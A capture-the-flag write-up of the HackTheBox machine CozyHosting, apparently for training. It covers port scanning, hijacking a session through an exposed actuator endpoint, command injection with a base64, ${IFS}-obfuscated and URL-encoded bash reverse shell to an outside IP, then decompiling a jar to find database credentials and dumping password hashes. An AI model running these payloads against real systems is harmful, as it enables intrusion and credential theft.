 # CozyHosting
> Write-up author: jon-brandy

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/fa4c16d1-f3fe-47c6-810f-466d37c566a6)

## STEPS:
> PORT SCANNING

```
┌──(brandy㉿bread-yolk)-[~]
└─$ nmap -p- -sVC 10.10.11.230 --min-rate 1000
Starting Nmap 7.93 ( https://nmap.org ) at 2023-09-30 22:59 PDT
Nmap scan report for 10.10.11.230
Host is up (0.032s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 4356bca7f2ec46ddc10f83304c2caaa8 (ECDSA)
|_  256 6f7a6c3fa68de27595d47b71ac4f7e42 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://cozyhosting.htb
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 18.72 seconds
```

1. Based from the nmap results, the machine runs a webapp and opens ssh logins.

> WEBAPP

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/fd9b7161-dbf0-4b00-b073-ef80301da3e2)


2. The wappalyzer itself shows us minimum info (for version).

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/1850a964-0b31-4a53-961a-1beee364802c)


3. Hence i ran dirsearch to list all directories or files available for this webapp.

> RESULTS

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/5697fb2f-fb43-476f-8efc-705146d76b30)


4. `admin` page and `actuator` directory should be our interest here.
5. Opens `actuator/sessions` shall resulting to this:

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/617cbf55-e5f0-470d-a54c-53965f5817bb)


![image](https://github.com/jon-brandy/hackthebox/assets/70703371/e95e9939-f036-4f73-af4a-6a7330e23f2c)


6. Noticed there's a user session with name `kanderson` (Informatin Disclosure).
7. Let's change our session to kanderson's, then refresh the page.

 ![image](https://github.com/jon-brandy/hackthebox/assets/70703371/a7c8c241-4cfa-4d95-a058-7c0bdd8b7d4f)


> RESULT

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/fac50408-3393-41e8-8df3-b4d2f3cf9604)


8. Scrolling down you shall see an input box.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/dbbc52af-baf7-45d6-9dd8-036986c88b27)


9. This should be our interest. To identify what's the vuln, let's capture the request we send using burpsuite.
10. Let's just fill the hostname with our tun0 interface and leave username empty, we just want to know what response might the server give.

> IN BURPSUITE

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/c2035f5f-dcc6-41f9-9f08-2a892ecfe5ba)


11. Noticed the server responds an error for the ssh command.
12. This make it clear, that the vuln should be related to command injection.
13. The idea is using basic bash reverse shell payload:

> BASH REVERSE SHELL PAYLOAD

```txt
bash -i >& /dev/tcp/10.10.16.14/1337 0>&1
```

> ENCODE IT TO BASE64 (adding -w 0, to make sure the output is a single line command)

```
echo "bash -i >& /dev/tcp/10.10.16.14/1337 0>&1" | base64 -w 0
```

> RESULT

```
YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNi4xNC8xMzM3IDA+JjEK
```

14. Great! Now for the final payload, because we want the server to decode our payload first then execute it, hence we use `base64 -d`.
15. But again, we need to encode it again with `url-encode` to terminate all the spaces.
16. The best practice is to use --> `${IFS%??}` to avoid spaces or other characters that may be treated as delimiters by the shell.
17. Then we url-encode the payload, set listener and send our payload.

> PAYLOAD

```
Original one:

echo "YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNi4xNC8xMzM3IDA+JjEK" | base64 -d | bash;

Adding ${IFS%??} to covering whitespaces

;echo${IFS%??}"YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNi4xNC8xMzM3IDA+JjEK"${IFS%??}|${IFS%??}base64${IFS%??}-d${IFS%??}|${IFS%??}bash;

URL-ENCODE:

%3Becho%24%7BIFS%25%3F%3F%7D%22YmFzaCAtaSA%2BJiAvZGV2L3RjcC8xMC4xMC4xNi4xNC8xMzM3IDA%2BJjEK%22%24%7BIFS%25%3F%3F%7D%7C%24%7BIFS%25%3F%3F%7Dbase64%24%7BIFS%25%3F%3F%7D%2Dd%24%7BIFS%25%3F%3F%7D%7C%24%7BIFS%25%3F%3F%7Dbash%3B
```

> RESULT

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/8d7f115a-0819-4aa5-b627-3d54677ed0cd)


18. At this point we can't get user flag, because we're not having the shell as "josh".

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/a925e28b-c55b-4833-b19a-99e927f38459)


19. Noticed there's a .jar file which might be our interest.
20. Let's setup a python server at the remote server and download the file to our local machine.

#### NOTES: setup python server at port other than 80.

> RESULT

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/1b6709ea-e312-4421-8cce-40996c53d1df)


21. Well if you noticed, it failed to download it full.
22. Hmm, confused here, but anyway since we opens python server at port 8000, accessing the remote host with port 8000 shall shown this:

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/0baf88f9-bf8d-49f3-8c81-5a60662244b9)


23. Let's download it manually.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/b6b219f6-0f33-4010-bc31-003450d26de8)


> DECOMPILING IT WITH JD-GUI

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/017cf7f2-8d89-4797-b0fa-24d2f0c283dd)


24. Interesting, we found a **postgres** cred.
25. Let's access `psql` at the remote server.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/01837280-db9b-4d0b-a325-512bf643d3a7)


26. Run --> `\l` to list all the databases available.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/8f630db5-1b44-4adc-89a3-759db0298432)


27. Great! Let's connect to `cozyhosting` --> run `\c cozyhosting`.
28. To dump all the tables run -> `\d`.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/de6584c5-0f47-4752-8e01-a0880437bae1)


> DUMPING users column.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/18e97676-389a-4574-925f-665faf90e4ab)


29. Interesting, **users** table should be our interest. Let's select all from it.

> SELECT * FROM public.users;

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/7df3bd4f-d4c7-4b02-bd63-8c6bce6324f6)


30 Awesome! Let's crack all the hashed password with john.

> RESULT






